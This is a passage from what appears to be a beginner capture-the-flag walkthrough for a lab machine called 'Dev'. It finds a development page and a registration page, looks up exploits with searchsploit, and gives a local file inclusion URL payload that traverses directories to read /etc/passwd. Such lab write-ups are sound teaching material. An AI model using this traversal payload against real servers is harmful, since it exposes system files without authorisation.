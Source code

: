  - dev

Let's check it out

```
http://192.168.xx.xxx:8080/dev

```
We find a `Registeration page `

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/b392e7ab1a2b7c1c5fc543d565f9a1eceb708cf4/Dev/images/boltwire%20log.png)

## Local File Inclusion
Now let's search exploits for `Bolt CMS`
using `searchsploit`

```
searchsploit bolt
```
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/b392e7ab1a2b7c1c5fc543d565f9a1eceb708cf4/Dev/images/exploitsCMSBolt.png)

Now there is `Local File Inclusion` it  Allows us to expose file that are running on a server.

We know they are running PHP so.
If you modify the `url` like this you might get info about the `/etc/passwd` file.
```
index.php?p=action.search&action=../../../../../../etc/passwd
```
It's like going back in a linux system many times.
